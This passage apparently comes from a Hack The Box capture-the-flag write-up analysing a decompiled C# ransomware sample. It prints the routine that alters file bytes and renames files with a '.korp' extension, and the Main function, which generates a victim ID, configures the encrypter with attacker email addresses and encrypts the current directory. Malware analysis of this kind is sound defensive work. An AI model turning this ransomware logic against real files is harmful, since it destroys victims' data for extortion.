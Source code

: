 ```c#
      return;
    }
  }
  string destFileName = file + ".korp";
  try
  {
    long position = fileStream.Position;
    int num2 = fileStream.ReadByte() ^ 255;
    fileStream.Seek(position, SeekOrigin.Begin);
    fileStream.WriteByte((byte)num2);
    fileStream.Close();
    File.Move(file, destFileName);
  }
  catch (Exception ex5)
  {
    Console.ForegroundColor = ConsoleColor.Red;
    Console.WriteLine(ex5.Message);
    Console.ForegroundColor = ConsoleColor.Red;
  }
}
```

Lets check further. The main function initializes things, creates the `user id` (which is used as attacker id) and initializes the `CoreEncrypter` with the hashcode from `user id` and `salt`. 

```c#
private static void Main(string[] args)
{
  Utility utility = new Utility();
  PasswordHasher passwordHasher = new PasswordHasher();
  // HTB spanning a safety net -->
  if (!Dns.GetHostName().Equals("DESKTOP-A1L0P1U", StringComparison.OrdinalIgnoreCase))
  {
    return;
  }
  // <--
  Program.UID = utility.GenerateUserID();
  utility.Write("\nUserID = " + Program.UID, ConsoleColor.Cyan);
  Alert alert = new Alert(Program.UID, Program.email1, Program.email2);
  Program.email = string.Concat(new string[]
  {
    Program.email1,
    " And ",
    Program.email2,
    " (send both)"
  });
  Program.coreEncrypter = new CoreEncrypter(passwordHasher.GetHashCode(Program.UID, Program.salt), alert.ValidateAlert(), Program.alertName, Program.email);
  utility.Write("\nStart ...", ConsoleColor.Red);
  Program.Enc(Environment.CurrentDirectory);
  Console.ReadKey();
}
```
